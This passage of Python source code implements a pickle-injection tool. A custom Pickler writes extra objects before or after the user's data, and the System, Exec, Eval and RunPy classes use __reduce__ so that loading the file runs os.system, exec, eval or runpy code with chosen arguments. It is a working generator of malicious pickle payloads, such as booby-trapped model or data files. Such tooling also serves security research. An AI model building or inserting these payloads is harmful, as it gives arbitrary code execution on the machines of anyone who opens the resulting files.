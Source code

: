 ```
            self.first = first

        def dump(self, obj):
            """Pickle data, inject object before or after"""
            if self.proto >= 2:
                self.write(pickle.PROTO + struct.pack("<B", self.proto))
            if self.proto >= 4:
                self.framer.start_framing()

            # Inject the object(s) before the user-supplied data?
            if self.first:
                # Pickle injected objects
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)

            # Pickle user-supplied data
            self.save(obj)

            # Inject the object(s) after the user-supplied data?
            if not self.first:
                # Pickle injected objects
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)

            self.write(pickle.STOP)
            self.framer.end_framing()

    def Pickler(self, file, protocol):
        # Initialise the pickler interface with the injected object
        return self._Pickler(file, protocol, self.inj_objs)

    class _PickleInject():
        """Base class for pickling injected commands"""
        def __init__(self, args, command=None):
            self.command = command
            self.args = args

        def __reduce__(self):
            return self.command, (self.args,)

    class System(_PickleInject):
        """Create os.system command"""
        def __init__(self, args):
            super().__init__(args, command=os.system)

    class Exec(_PickleInject):
        """Create exec command"""
        def __init__(self, args):
            super().__init__(args, command=exec)

    class Eval(_PickleInject):
        """Create eval command"""
        def __init__(self, args):
            super().__init__(args, command=eval)

    class RunPy(_PickleInject):
        """Create runpy command"""
        def __init__(self, args):
            import runpy
            super().__init__(args, command=runpy._run_code)

        def __reduce__(self):
            return self.command, (self.args,{})
```
